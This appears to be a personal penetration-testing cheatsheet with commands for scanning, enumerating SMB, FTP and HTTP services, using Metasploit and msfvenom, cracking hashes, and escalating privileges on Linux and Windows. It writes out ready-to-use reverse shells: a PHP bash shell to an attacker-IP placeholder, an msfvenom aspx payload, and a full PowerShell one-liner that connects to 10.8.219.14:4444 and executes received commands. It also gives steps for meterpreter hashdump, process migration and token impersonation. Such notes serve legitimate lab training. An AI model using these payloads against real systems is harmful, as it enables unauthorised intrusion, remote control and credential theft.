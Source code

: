 # Cheatsheet

## OSINT

### NMAP
As an alternative you can use `rustscan -a <address>`
Normal scan: `nmap -vv -sV -Pn -A -T4 --script vuln <address>`
Long scan: `nmap -sV -Pn -A -T4 -p- <address>`
Enumerate SMB: `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <address>`

### Enumerate SMB
`smbmap -H <address>`
Check discovered directories in other places such as websites.
`smbclient -L <address> -U`
List all the directories in the share

### Enumerate FTP: 21
`ftp <address>`
Anonymous login: anonymous (no password required)

#### nmap
`nmap --script ftp-* -p 21 <address>`

#### Download all files
`wget -m ftp://anonymous:anonymous@<address>`
`wget -m --no-passive ftp://anonymous:anonymous@<address>`

#### Brute Force
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt

### Enumerate HTTP
`gobuster dirb --url=<address> --wordlist=<wordlist>`

### Metasploit
open `msfconsole`
`search <exploit name>`
`use <discovered id>`
`show options` set the required options for the exploit
`exploit` or `run`
you can then hold on to the shell once it has been achieved by putting it into the background `Ctrl-Z`

#### Msfvenom
There are two types of payloads that can be generated, staged and stageless. Staged means you need msfconsole to complete the shell, used for limited upload space.
Staged, denoted by '/': windows/shell/reverse_tcp
Stageless, denoted by '_': windows/shell_reverse_tcp

To search for payloads: `msfvenom -l payloads | grep windows`
When setting up: `msfvenom -p payload --list-options`

encoders:
	windows: `-a x86 --encoder x86/shikata_ga_nai -f exe -o <filename>.exe`

IIS Example: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.219.14 --platform windows -a x64 -f aspx -o shell.aspx`

#### Upgrade shell to Meterpreter

##### Option 1
search for shell_to_meterpreter use and set session to the session number of the session that needs upgrading

##### Option 2
`sessions -u <id>`

## Exploitation

### Windows Binary Locations
`/usr/share/windows-resources/`

### Reverse Shells
#### PHP
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker ip>/1234 0>&1'");
?>
```

### Cracking Passwords
First search for hash via Search-the-hash `sth -t <hash>` or `sth -f <file>`
If not found you can use `john` or `hashcat`
Example hashcat (use `--help` for more guidance):
`hashcat -m <type of hash> -a <cracking type> <hash>:<salt> <wordlist> --show`
Note: must use `--show` to actually see the cracked password...

## Post-Exploitation

### Check Services and Ports
Running Ports: `ss -natu`
Forwarding ports through ssh: `ssh -L <local port>:<remote address>:<remote port> <username>@<address>`

### Python
#### Reverse Shell Upgrade
`python -c 'import pty; pty.spawn("/bin/bash")'`

#### Simple HTTP Server
If you need to get a file over to a compromised server with curl installed:
`python3 -m http.server`

### Shell
#### SUID search
`find / -user root -perm -4000 -exec ls -ldb {} \;`
`find / -perm -u=s -type f 2>/dev/null`
`find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null`

If you find a binary that matches this, you can try running with the `-p` flag which allows you to run a binary as the owner.

#### Find writable directories
`find -type d -writable`

### MetaSploit
#### Catching a Reverse Shell
generate the reverse shell in msfvenon
`use exploit/multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`

#### Windows Migration
get a meterpreter session and find a process running as SYSTEM: `ps`
safest choice is to choose `services.exe`
`migrate <process id>`

#### Windows Passwords
within meterpreter session: `hashdump`

#### Using Powershell
`load powershell` then `powershell_shell`

#### Windows Token Exploitation
powershell `whoami /priv`
msf `load incognito`
`list_tokens -g` then `impersonate_token <name of token>`

## Tools
A series of a userful links:
- [Nishang](https://github.com/samratashok/nishang.git): A series of useful Windows Exploit scripts
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) Same as above

## Misc
Reuse a command from history `history | grep <parameter>`, `!!<choice>`

### Powershell Reverse Shell
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.219.14',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### Starting SMB Server
Navigate to folder to share

`python3 /usr/share/doc/impacket-scripts/examples/smbserver.py SHARE .`

### Powershell

- Search for command with name: `Get-Command *search_parameter*`
- Get all Parameters for a command: `(Get-Command Command).Parameters`
- Search for a file: `Get-ChildItem -Path C:\ -Include *title* -File -Recurse -ErrorAction SilentlyContinue`
- Search for files containing string: `Get-ChildItem C:\* -Recurse | Select-String -pattern search_string
- Get list of running processes: `Get-Process`
